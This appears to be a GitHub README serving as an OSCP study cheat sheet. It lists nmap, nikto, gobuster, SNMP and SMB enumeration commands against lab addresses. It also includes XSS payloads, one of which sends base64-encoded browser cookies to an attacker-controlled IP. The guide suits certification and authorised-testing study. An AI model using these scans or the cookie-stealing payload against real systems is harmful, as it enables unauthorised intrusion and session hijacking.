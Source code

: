 # OSCP
OSCP Study Guide

## Table of Contents

## Enumeration and Recon

### NMAP:

Legend: 
```
-sN TCP Null Scan reveals the status of ports without directly querying them
-sV: Probe open ports to determine service/version info
-sC: equivalent to --script=default
-sS/sT/sA/sW/sM: TCP SYN/Connect()/ACK/Window/Maimon scans
-sU: UDP Scan
-O: Enable OS detection
-g/--source-port <portnum>: Use given port number
-oA <basename>: Output in the three major formats at once
-A: Enable OS detection, version detection, script scanning, and traceroute
--version-light: Limit to most likely probes (intensity 2)
```

Examples Commands:

```
nmap -sC -sV -oA nmap\machine 10.10.10.1
```
```
nmap -A -T4 -p- -oA nmap\machine 10.10.10.1
```

UDP Scanning:

```
nmap -sU -oA nmap\machine_udp
```

Vulnerability Scanning:

```
sudo nmap --script vuln 10.11.1.10
```

### subdomain enumeration

```
dig axfr @10.10.10.13 cronos.htb
```

### Web Enumeration

Nikto scanning:

```
nikto -h http://10.10.10.1
```

Directory busting with different tools:

DIRB

```
dirb http://10.10.10.1
```

Gobuster

```
gobuster dir -u http://10.129.155.74:3000 -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -x aspx
```

### Pentesting Website Applications

XSS Payloads:
Cheatsheet: https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection

Basic XSS form testing with either netcat listener or python web server
```
<img src=http://10.10.16.10/pwn.jpg/>
```

Cross Site scripting to dump base64 cookies. Make sure to url encode in burp with ctrl + u
```
<img src=x onerror=this.src='http://10.10.16.10/?cookies='+btoa(document.cookie) />
```
### Pentesting SNMP

Port 161 UDP

```
snmpwalk -c public -v2c 10.129.213.210
```

```
snmp-check 10.129.213.210
```

### Pentesting SMB

```
crackmapexec smb 10.129.70.254 
```

Detect anonymous shares that are open

```
smbclient -L //10.129.70.254
```

Null Authentication

```
smbclient -N -L //10.129.70.254
```
